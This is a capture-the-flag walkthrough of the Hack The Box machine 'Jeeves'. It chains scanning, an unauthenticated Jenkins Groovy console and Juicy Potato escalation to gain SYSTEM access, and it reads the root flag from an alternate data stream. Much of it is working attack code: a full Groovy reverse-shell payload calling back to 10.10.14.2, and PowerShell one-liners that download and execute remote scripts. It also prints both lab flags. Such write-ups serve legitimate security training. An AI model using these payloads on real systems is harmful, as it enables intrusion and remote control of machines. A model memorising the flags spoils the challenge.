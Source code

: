 # Jeeves - Medium

```shell
nmap -T4 -p- -A -v 10.10.10.63

feroxbuster -u http://10.10.10.63 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,bak,js,txt,json,docx,pdf,zip --extract-links --scan-limit 2 --filter-status 401,403,404,405,500 --silent

feroxbuster -u http://10.10.10.63:50000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,bak,js,txt,json,docx,pdf,zip --extract-links --scan-limit 2 --filter-status 401,403,404,405,500 --silent

nc -nvlp 4444
#setup listener for groovy script exploit
#we get reverse shell

whoami

whoami /priv
#SeImpersonatePrivilege enabled

#download JuicyPotato.exe in attacker machine
#setup server in attacker machine
python3 -m http.server

#transfer exploit and nc.exe
#in victim machine
#certutil is not available
powershell -c (New-Object Net.WebClient).DownloadFile('http://10.10.14.2:8000/JuicyPotato.exe', 'jp.exe')

.\jp.exe
#check required arguments

#in attacker machine
#add reverse-shell oneliner at end of Invoke-PowerShellTcp.ps1 script
vim Invoke-PowerShellTcp.ps1

echo "powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.2:8000/Invoke-PowerShellTcp.ps1')" > shell.bat

#now in victim machine
powershell -c (New-Object Net.WebClient).DownloadFile('http://10.10.14.2:8000/shell.bat', 'shell.bat')

#setup listener in attacker machine
nc -nvlp 6666

#in victim machine
#run juicy potato exploit
.\jp.exe -t * -p shell.bat -l 4444

#we get powershell shell as System on our listener
whoami

type C:\Users\kohsuke\Desktop\user.txt

cd C:\Users\Administrator\Desktop

dir
#we do not have root.txt

type hm.txt
#we've to go deeper

cmd /r dir /R
#dir /R is actual command to show alternate data streams
#as we are in powershell
#this shows us hidden data stream

Get-Item -path hm.txt -stream *
#gives stream name

Get-Content -path hm.txt -stream root.txt
#root flag
```

```groovy
String host="10.10.14.2";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

* Open ports & services:

  * 80 - http - Microsoft IIS httpd 10.0
  * 135 - msrpc - RPC
  * 445 - microsoft-ds - Microsoft Windows 7-10 microsoft-ds
  * 50000 - http - Jetty 9.4.z-SNAPSHOT

* The webpage on port 80 leads us to a page for 'Ask Jeeves'; when we search for anything, we are shown an image of an error page.

* There is a webpage on port 50000 as well, but it also shows an error along with the software used - 'Jetty 9.4.z-SNAPSHOT'.

* We can enumerate web directories for both ports to check for any hidden directories.

* On port 50000, we get the page /askjeeves, which leads us to a Jenkins dashboard without any login required.

* The Jenkins version is 2.87; we can find some exploits for this version on Google.

* We can attempt to exploit the Jenkins Groovy script feature; if we setup listener and execute the script in /askjeeves/script, we will get reverse shell as kohsuke.

* Now, checking privileges, we can see that SeImpersonatePrivilege is enabled.

* We can use Juicy Potato exploit to abuse this privilege; we can get the .exe for the exploit from the official repo.

* We can use Invoke-PowerShellTcp.ps1 script to get reverse shell; add the following line to the end of the script:

    ```Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.2 -Port 6666```

* Next, we need to create a shell.bat file that downloads the reverse shell script and runs it.

* Lastly, we need to transfer this shell.bat file to the victim machine, and then run it with Juicy Potato exploit.

* On the listener which we have setup, we get shell as System.

* We do not have root.txt in Administrator's desktop; but we get alternate data stream upon checking.

* Therefore we can get root flag by using alternate data stream.

```markdown
1. User flag - e3232272596fb47950d59c4cf1e7066a

2. Root flag - afbc5bd4b615a60648cec41c6ac92530
```
